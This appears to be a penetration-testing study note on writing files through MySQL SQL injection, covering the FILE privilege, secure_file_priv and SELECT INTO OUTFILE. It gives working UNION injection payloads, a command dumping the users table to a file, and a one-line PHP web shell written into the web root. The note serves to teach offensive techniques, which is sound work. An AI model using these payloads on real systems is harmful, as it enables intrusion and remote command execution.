# Writing Files
***
### Writing files through a database can be a good way to write a web shell on the remote server.
### Most databases disable file-write by default and require certain privileges to write files.

### Write File Privileges
#### Inorder to write files to the back-end server using MySQL database, we need the following things:
1. User with **FILE** privilege enabled
2. MySQL global **secure_file_priv** variable not enabled
3. Write access to the location we want to write to on the back-end server
 
### secure_file_priv
#### This variable is used to determine where to read/write files from
#### An empty value lets us read files from the entire file system. A NULL value means we cannot read/write from any directory
#### MariaDB uses an empty value by default. However, MySQL uses /var/libs/mysql-files as the default folder. Other databases have the value NULL by default
#### Example to obtain te value of secure_file_priv variable:
```sql
SHOW VARIABLES LIKE 'secure_file_priv';
```
#### Example to obtain te value of secure_file_priv variable using UNION and SELECT:
```sql
v' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables where variable_name="secure_file_priv"-- 
```
#### **NOTE**: MySQL global variables are stored in a table called global_variables, and it has two columns **variable_name** and **variable_value**.

### SELECT INTO OUTFILE
#### After confirming that our user should write files to the back-end server, we can then try to do that using **SELECTING .. INTO OUTFILE**
#### Writing data from a table to a file, example:
```sql
SELECT * from users INTO OUTFILE '/tmp/credentials';
```
#### Writing strings to a file, example:
```sql
SELECT '0x1337' INTO OUTFILE '/tmp/test.txt';
```
#### **NOTE**: Advanced file exports utilize the 'FROM_BASE64("base64_data")' function in order to be able to write long/advanced files, including binary data.

### Writing Files through SQL Injection
#### If we want to write a web shell, we must know the web root (base web directory) for the web server. We can use load_file to find out. Lastly , we may run a fuzzing scan and try to write files to different possible web roots, using this wordlist for [Linux](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-linux.txt) or this wordlist for [Windows](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-windows.txt).
#### Example:
```sql
v' union select 1,'file written successfully!',3,4 into outfile '/var/www/html/proof.txt'-- 
```

### Writing a Web Shell
#### Example of a PHP webshell:
```php
<?php system($_REQUEST[0]); ?>
```
#### Using UNION:
```php
v' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- 
```
#### Then we can execute commands using **?0=id** in our URL:
